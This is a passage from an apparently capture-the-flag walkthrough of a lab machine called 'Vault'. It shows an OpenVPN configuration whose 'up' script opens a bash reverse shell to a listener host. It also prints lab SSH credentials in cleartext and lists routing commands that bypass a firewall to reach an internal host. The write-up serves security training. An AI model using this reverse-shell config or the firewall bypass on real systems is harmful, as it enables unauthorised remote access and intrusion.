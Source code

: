 > And it's exactly at this moment when I received a call from Mom asking me what I was doing and I answered: Hmmmmm... not much, hacking VPN Mom.


This [medium article](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da) defines well what is what and how to pop a shell out of it!

```
remote 192.168.122.1
dev tun
nobind
script-security 2
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/2323 0>&1'"
```

```
cat ssh
dave
dav3gerous567


cat user*
a4***************************3

```

> At this point you could have change the root password and connect with ssh using these credentials and found alex's `.bash_history` where you would have seen that he was pinging the `192.168.5.2` IP adress. But no chance, this adress was no longuer reachable. 

All the traffic to the Vault was passing trough the  `192.168.122.5` firewall. Bypassing firewall was easy. All you had to do was to add another IP adress to the same interface and remove this routing. Then, running a basic nmap scan on this target to unveil the `987/tcp` port wich was exposing a ssh service that were using the same cred then the DNS box.

```
root@DNS:# route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun0
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun1
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun2
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun3
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun4
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun5
192.168.5.0     192.168.122.5   255.255.255.0   UG    0      0        0 ens3
192.168.122.0   *               255.255.255.0   U     0      0        0 ens3

root@DNS:# ip address add 192.168.5.137/24 dev ens3
root@DNS:# route del -net 192.168.5.0 netmask 255.255.255.0 gw 192.168.122.5
root@DNS:# ping 192.168.5.2
PING 192.168.5.2 (192.168.5.2) 56(84) bytes of data.
64 bytes from 192.168.5.2: icmp_seq=1 ttl=64 time=1.56 ms
```

Welcome to the Vault!
=====================
